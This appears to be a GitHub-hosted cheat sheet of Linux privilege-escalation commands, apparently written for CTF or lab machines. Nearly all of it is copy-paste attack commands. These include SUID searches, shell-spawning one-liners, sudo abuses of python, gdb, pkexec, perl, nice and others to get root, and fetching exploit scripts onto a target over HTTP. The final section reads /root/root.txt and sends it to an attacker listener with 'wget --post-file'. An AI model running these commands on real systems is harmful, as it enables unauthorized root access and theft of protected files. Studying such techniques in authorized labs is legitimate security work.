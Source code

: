 - ## Privilege escalation <a name="privilegeescalation"></a>
[easy way to get root/root.txt](#root.txt)
- `cat /etc/issue`
```
find / -o -group `id -g` -perm \ 
 -g=w -perm -u=s -o -perm -o=w\
 -perm -u=s -o -perm -o=w \
 -perm -g=s -ls
```
- ```python3 -c 'import os; os.system("/bin/bash")'```
- ```python -c 'import pty; pty.spawn("/bin/bash")'```
- `echo os.system('/bin/bash')`
```
exec "/bin/sh";
perl —e 'exec "/bin/sh";'
```
- `os.execute('/bin/sh')`
- `exec "/bin/sh"`
- ```find /  -perm -u=s -type f 2>/dev/null``` to see the permission
- Use ```linpeas``` if you are not getting any escalation
  - download the script from the github
- If It was running on Linux Kernel 4.4.0–31-generic and Ubuntu 14.04.5 LTS. use below command
  - ```wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh```
  - ```chmod +x linux-exploit-suggester.sh``` and ```./linux-exploit-suggester.sh```
  - you will get some CVE, select any one CVE in that download URL will be there using that link you can download scripts
  - ```wget (download URL in CVE)``` download the file in your system
  - run ```sudo python -m http.server 80```
  - download the file in the target system ```wget http://<myip>/<filename>```
  - example: wget http://192.168.45.161/root.cpp
 
  
 - ```bash -p```
   
- if you find ```/usr/bin/python2.7``` in sudo -l
  - then use the below command it will give you the root privilege
  - ```/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'```
 
- if you find ```/usr/bin/gbd``` in sudo -l
  - then use the below command it will give you the root privilege
  - ```/usr/bin/gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit```
 

- if you find ```/usr/bin/pkexec``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```sudo pkexec /bin/bash```

- if you find ```/usr/bin/mtr``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```LFILE=/root/proof.txt```
  - ```sudo mtr --raw -F "$LFILE"```

- if you find ```/usr/bin/time``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```sudo /usr/bin/time /bin/bash```

- if you find ```(ALL : ALL) /bin/nice /notes/*``` in ```sudo -l```
  - it shows that you can run all the files in the /notes directory with /bin/nice binary.
  - so create a script letsgetroot.sh which executes /bin/bash and gave the necessary permissions.
  - ```echo "/bin/bash" >> letsgetroot.sh``` save the file in any directory
  - ```sudo /bin/nice /notes/../home/user/letsgetroot.sh``` it will give the root access.


- if you find ```(ALL : ALL) NOPASSWD: /usr/bin/perl``` in ```sudo -l```
  - then use the below command it will give you the root privilege
  - ```sudo perl -e 'exec "/bin/bash";'```

# easy way to get root/root.txt <a name="root.txt"></a>
### 1️⃣ Read the Root Flag Using --input-file:
- Use a root-only file (/root/root.txt) as an input to wget.
- It will try to parse it as a URL, fail, and leak the content (flag) in the error.
  - `sudo wget --input-file=/root/root.txt`


### 2️⃣ Exfiltrate the Flag Using --post-file:
- Use wget to send the flag to your attack machine.
- Steps:
  - 1. On your Kali machine, start a netcat listener:
    - `nc -lnvp 443`
  - 2. On the victim (sammy), run:
    - `sudo wget --post-file=/root/root.txt http://<your-ip>:443/`
- >The flag is sent to your listener.
